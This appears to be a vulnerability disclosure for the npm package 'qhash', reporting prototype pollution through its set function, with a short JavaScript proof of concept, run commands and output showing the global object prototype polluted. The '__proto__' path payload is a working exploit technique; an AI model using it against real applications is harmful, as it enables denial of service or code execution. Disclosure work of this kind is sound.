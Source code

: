 # Description

`qhash` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('qhash')

console.log('Before: ' + {}.polluted)
set({}, '__proto__.polluted', true)
console.log('After: ' + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i qhash # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

